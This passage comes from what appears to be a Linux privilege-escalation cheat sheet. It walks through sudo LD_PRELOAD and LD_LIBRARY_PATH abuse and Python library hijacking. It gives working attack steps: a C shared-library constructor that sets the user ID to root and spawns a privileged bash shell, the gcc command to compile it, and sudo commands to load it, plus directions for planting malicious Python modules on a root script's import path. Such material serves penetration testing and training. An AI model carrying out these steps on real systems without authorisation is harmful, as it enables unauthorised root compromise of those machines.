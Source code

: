   - **Now use preload to get root**
  
  >  sudo LD_PRELOAD=/tmp/preload.so <any binary allowed in sudo -l>


     
    #### LD_LIBRARY_PATH

   >  If we see env_keep=LD_LIBRARY_PATH when sudo -l we can also manipulate it. This is used by system
   >  to see which shared libraries will be used by a certain binary or program.We can see the shared
   >  libraries used by a binary and then make a similiar our own file with name of a used shared library
   >   system will load our code instead of the SO code.
   
   >  We can use following command to see shared libraries used by a binary
    
   -  ldd <binary absolute path>

   - **To create a root shell  make a c file library_path.c**

  > #include <stdio.h>
 
  > #include <stdlib.h>

  >  static void hijack()_attribute_((constructor));

  >  void hijack(){unsetenv("LD_LIBRARY_PATH");setresuid(0,0,0);system("/bin/bash -p");}

  - **Now Compile the code**
 
  > gcc -fPIC -shared -nostartfiles -o <same name as any shared library> library_path.c

  - **Now use preload to get root**
  
  >  sudo LD_LIBRARY_PATH=<custom SO name> <any binary allowed in sudo -l> 

    #### Python library hijacking

    If a scripts gets executed by root or has suid set , and we cant write to it. we can create py files of the libraries which the script is importing. Create files in our current directory or if any ptython path is writable and make libraryname.py file with malicious code


    From python documentation
    ```python

     When a module named spam is imported, the interpreter first searches for a built-in module with that name. If not found, it then searches for a file named spam.py in a list of directories given by the variable sys.path. sys.path is initialized from these locations:

    The directory containing the input script (or the current directory when no file is specified).

    PYTHONPATH (a list of directory names, with the same syntax as the shell variable PATH).

    The installation-dependent default (by convention including a site-packages directory, handled by the site module).


    ```

   
